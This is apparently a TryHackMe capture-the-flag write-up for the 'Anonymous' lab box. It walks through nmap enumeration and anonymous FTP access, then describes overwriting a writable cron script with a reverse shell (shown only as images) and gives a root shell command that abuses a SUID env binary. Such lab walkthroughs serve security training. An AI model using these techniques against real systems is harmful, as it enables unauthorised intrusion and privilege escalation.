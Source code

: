 # THM - Anonymous

#### Ip: 10.10.2.68
#### Name: Anonymous
#### Rating: Medium

----------------------------------------------------------------------

anonymous.png

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ sudo nmap -p-  --min-rate 10000 10.10.2.68 -sC -sV                    
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-27 12:46 CDT
Warning: 10.10.2.68 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.2.68
Host is up (0.28s latency).
Not shown: 63512 closed tcp ports (reset), 2019 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.2.6.181
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8bca21621c2b23fa6bc61fa813fe1c68 (RSA)
|   256 9589a412e2e6ab905d4519ff415f74ce (ECDSA)
|_  256 e12a96a4ea8f688fcc74b8f0287270cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 0s, deviation: 1s, median: -1s
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-09-27T17:47:24
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2023-09-27T17:47:24+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.28 seconds
```

The first things that jump out at me here are that there is anonymous access to the FTP server enabled, and also that there are open HTTP ports.

Lets check out FTP first.

Looks like there are 3 files in a directory called `scripts`, lets bring these back for examination using `mget *`:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ ftp 10.10.2.68                           
Connected to 10.10.2.68.
220 NamelessOne's FTP Server!
Name (10.10.2.68:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||57356|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||46328|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000          989 Sep 27 17:49 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> mget *
mget clean.sh [anpqy?]? y
229 Entering Extended Passive Mode (|||36906|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |********************************************************************************|   314        2.99 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (1.46 KiB/s)
mget removed_files.log [anpqy?]? y
229 Entering Extended Passive Mode (|||16050|)
150 Opening BINARY mode data connection for removed_files.log (989 bytes).
100% |********************************************************************************|   989        6.33 MiB/s    00:00 ETA
226 Transfer complete.
989 bytes received in 00:00 (3.17 KiB/s)
mget to_do.txt [anpqy?]? y
229 Entering Extended Passive Mode (|||32003|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |********************************************************************************|    68        1.04 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.16 KiB/s)
ftp> bye
221 Goodbye.
```

Looking at the files:

```text
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat to_do.txt 
I really need to disable the anonymous login...it's really not safe
                                                                                                                             
┌──(ryan㉿kali)-[~/THM/Anonymous]
└─$ cat removed_files.log 
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```

Looks like the cleanup script may be running as a cronjob?

Lets look at the script itself:

cleanup.png

Yeah looks like the script simply removes files and if there is nothing to remove echoes "nothing to delete" to the log file.

### Exploitation

Lets try modifying the cleanup.sh script to execute a reverse shell when run. We can add a reverse shell one-liner to the end of the script:

shell.png

Saving the file and logging back into FTP we can usee the `put` command to overwrite cleanup.sh with our reverse shell:

put.png

Nice, that worked! 

Now that we are on the box we can grab the user.txt flag:

user_flag.png

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help enumerate a privilege escalation vector:

transfer.png

LinPEAS find that `/usr/bin/env` has the SUID bit set. 

env.png

Lets head over to https://gtfobins.github.io/gtfobins/env/ for the command we'll need.

gtfo.png

Lets give it a shot:

```text
namelessone@anonymous:/tmp$ cd /usr/bin
namelessone@anonymous:/usr/bin$ ./env /bin/sh -p
# whoami
root
# id
uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Nice! All we need to do now is grab the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------------------

